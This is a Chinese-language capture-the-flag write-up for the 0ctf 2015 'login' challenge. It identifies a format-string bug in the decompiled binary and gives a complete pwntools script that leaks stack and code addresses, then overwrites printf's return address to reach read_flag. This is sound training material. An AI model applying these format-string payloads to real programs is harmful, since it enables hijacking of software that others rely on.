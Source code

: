 ```yaml
---
layout: post
title: "0ctf.login"
date: 2015-08-23 08:40:28 -0700
comments: true
categories: 
---
```


#0ctf.login

##0x00 源程序

https://github.com/ctfs/write-ups-2015/tree/master/0ctf-2015/exploit/login

##0x01 分析
拖入ida中分析存在选项4，查看选项4可以发现一个格式化字符串漏洞，如下

	  v7 = *MK_FP(__FS__, 40LL);
	  printf("Login: ");
	  scanf_s((__int64)&s1, 256);
	  printf("Password: ", 256LL);
	  scanf_s((__int64)&s, 256);
	  v0 = strlen(&s);
	  MD5(&s, v0, &v4);
	  v1 = (__int64)"root";
	  if ( !strcmp(&s1, "root") )
	  {
	    v1 = (__int64)"0ops{secret_MD5}";
	    if ( !memcmp(&v4, "0ops{secret_MD5}", 0x10uLL) )
	      read_flag();
	  }
	  printf(&s1, v1);
	  puts(" login failed.");
	  puts("1 chance remaining.");
	  printf("Login: ");
	  scanf_s((__int64)&s1, 256);
	  printf("Password: ", 256LL);
	  scanf_s((__int64)&s, 256);
	  v2 = strlen(&s);
	  MD5(&s, v2, &v4);
	  v3 = (__int64)"root";
	  if ( !strcmp(&s1, "root") )
	  {
	    v3 = (__int64)"0ops{secret_MD5}";
	    if ( !memcmp(&v4, "0ops{secret_MD5}", 0x10uLL) )
	      read_flag();
	  }
	  printf(&s1, v3);
	  puts(" login failed.");
	  puts("Threat detected. System shutdown.");
	  exit(1);
	}
##0x02 漏洞利用

1，先用%x泄露栈和代码段的地址
2. 在局部变量中构造printf函数的返回地址
3，再次利用格式化字符串漏洞，将read_flag函数的地址写入printf的返回地址

##0x03 payload


	from pwn import *
	from binascii import *

	add = 'aaaaaaa'

	r = process("./login")
	#r = remote("127.0.0.1", 9999)

	f = open("input", "w")

	def wf(m):
		m += '\n'
		f.write(m)


	def login():
		print r.recvuntil("Login:")
		r.sendline("guest")
		wf("guest")
		print r.recvuntil("Password:")
		r.sendline("guest123")
		wf("guest123")

	def opt2(m):
		print r.recvuntil("choice:")
		r.sendline("2")
		wf("2")
		print r.recvuntil("username:")
		r.sendline(m)
		wf(m)

	def opt4(m):
		print r.recvuntil("choice:")
		r.sendline("4")
		wf("4")
		print r.recvuntil("Login:")
		r.sendline(m)
		wf(m)
		print r.recvuntil("Password:")
		r.sendline("aaaa")
		wf("aaaa")

	def pay(data):
		print r.recvuntil("Login:")
		r.sendline( data )
		wf( data )
		print r.recvuntil("Password:")
		r.sendline("aaaa")
		wf("aaaa")

	def pay2(data):
		r.sendline( data )
		wf( data )
		print r.recvuntil("Password:")
		r.sendline("aaaa")
		wf("aaaa")


	login()
	opt2('a' * 256)
	opt4("%12$llx--%22$llx")
	data = r.recvuntil("Login:")
	print '----------'
	print data
	print '----------'

	printf_ret_addr =  ( int( data[1: 13], 16 ) + 0xe2d8 -0xe510 )
	readflag =  ( int( data[15: 27], 16 ) + 0xfb3 -0xba0 )
	print '[+]hexpringf_ret_addr ',hex(printf_ret_addr) 
	print '[+]hexreadflag', hex(readflag) 
	print '[+]readflag', hex(readflag)[-4:]
	count = int( hex(readflag)[-4:], 16)
	print '[+]printf_ret_addr', hex( printf_ret_addr ) 

	printf_ret_addr =  p64( printf_ret_addr & 0xffffffffffffffff )
	readflag = p64( readflag & 0xffffffffffffffff )

	print '[+]pay2',b2a_hex("%" + str( count ) + "x-%12$nAAAAAAAAAAAAAAAAAAA" + printf_ret_addr )
	pay2("%" + str( count ) + "x-%12$hnAAAAAAAAAAA" + add +  printf_ret_addr )

	f.close()
	r.interactive()

